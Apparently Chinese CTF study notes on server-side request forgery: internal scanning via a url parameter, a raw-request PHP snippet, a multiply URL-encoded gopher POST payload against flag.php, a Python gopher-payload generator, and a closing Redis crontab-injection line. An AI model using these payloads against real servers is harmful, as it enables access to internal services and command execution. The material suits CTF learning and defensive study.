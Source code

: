 
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能，且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，文档等等

SSRF漏洞通过篡改获取资源的请求发送给服务器（服务器并没有检测这个请求是否合法的），然后服务器以他的身份来访问服务器的其他资源。SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器


## 文件扫描

扫描?url=127.0.0.1/x

## 端口扫描

通过服务器访问内网地址，直接用bp爆破url传参中的端口即可：127.0.0.1:x

## 发送包

```
当遇到
$fp=fsockopen($host,intval($port),$error,$errstr,30);//建立socket连接
fwrite($fp,$data);//写进我们的会话中的

我们需要以http请求访问一个网站时，需要伪造请求头写入会话
<?php
$out = "GET /flag.php HTTP/1.1\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "Connection: Keep-Alive\r\n\r\n";
echo $out;
echo base64_encode($out)
?>
```



## POST请求（gopher协议）

如果在x.php可以利用curl传url（也支持http和file协议），那么我们可以用gopher协议在x.php中构造post请求包往flag.php传key值，以此获取flag

gopher协议默认端口为70，需要指定POST方法，回车换行需要使用%0d%0a,而且POST参数之间的&分隔符也需要URL编码
```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=d93819c4c1a18dc606dc5c6486f77227
```
gopher的数据需要用url编码多次之后再发送，且第一次编码后%0A需全部替换成%0D%0A，现在进行编码
content-lenght为key值长度

**gopher使用结构gopher://127.0.0.1:80/_{TCP/IP数据流}**

（下划线的原因是gopher协议回吃掉第一个url后的字符）

以下为注入样例
```
url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D0bd5e192bb3c5e0f3df6b8ddf4252d9c
```

生成脚本

```
# -*- coding: UTF-8 -*-
#coding: utf-8
import urllib.parse
s=''
ss='''POST / HTTP/1.1
Host: 127.0.0.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://node5.anna.nssctf.cn:28344
Connection: close
Referer: http://node5.anna.nssctf.cn:28344/
Upgrade-Insecure-Requests: 1

url=http://127.0.0.1/flag.php'''
for i in ss:

    if len(str(hex(ord(i))[2:]))>=2:
        s+=str(hex(ord(i))[2:])
    else:
        s+='0'+str(hex(ord(i))[2:])
s=s.replace('0a','0d0a')
#print(s)

strrr=''
len=len(s)
p=''
for i in range(len)[::2]:
    p+=urllib.parse.quote(chr(int(s[i:i+2],16)))
    strrr+=chr(int(s[i:i+2],16))
#print(strrr)
urlp = urllib.parse.quote(p)
urlp = 'gopher://127.0.0.1:80/_' + urlp
print(urlp)
```





set 1 '\n\n*/1 * * * * root ./readflag
